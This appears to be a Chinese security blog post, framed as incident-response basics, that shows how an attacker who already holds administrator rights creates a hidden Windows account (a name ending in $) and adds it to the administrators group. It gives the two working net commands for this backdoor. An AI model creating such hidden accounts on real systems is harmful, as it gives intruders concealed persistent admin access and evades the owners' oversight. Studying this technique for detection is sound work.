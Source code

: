 
--- 
title:  [ 应急响应基础篇 ] Windows系统隐藏账户详解（Windows留后门账号） 
tags: []
categories: [] 

---
>  
 <h2>🍬 博主介绍</h2> 
 👨‍🎓 博主介绍：大家好，我是  ，很高兴认识大家~ ✨主攻领域：【渗透领域】【数据通信】 【通讯安全】 【web安全】【面试分析】 🎉点赞➕评论➕收藏 == 养成习惯（一键三连）😋 🎉欢迎关注💗一起学习👍一起讨论⭐️一起进步📝文末有彩蛋 🙏作者水平有限，欢迎各位大佬指点，相互学习进步！ 




#### 文章目录
- - - - <ul><li>- - - <ul><li>- - - - - - - - - - - - - 


## 一、Windows系统添加隐藏用户介绍

>  
 系统隐藏账户是一种最为简单有效的权限维持方式，其做法就是让攻击者创建一个新的具有管理员权限的隐藏账户，因为是隐藏账户，所以防守方是无法通过控制面板或命令行看到这个账户的。 


## 二、Windows系统添加隐藏用户步骤

### 1、环境介绍

>  
 前提条件: 假设在攻击的过程中通过利用各种getshell，已经拿到目标服务器administrator权限 环境：windows Server2012 IP：192.168.223.182 


### 2、创建一个隐藏账号

```
net user powershell$ w123456! /add 

```

>  
 添加powershell$隐藏用户 


```
net localgroup administrators powershell$ /add 

```

>  
 将powershell$用户添加进管理员组中 


<img src="https://img-blog.csdnimg.cn/06d7b8efef0544cdac50950065f32c0c.png" alt="在这里插入图片描述">

>  
 创建完成之后，输入net user 查看账户，发现我们创建的隐藏用户隐藏成功 
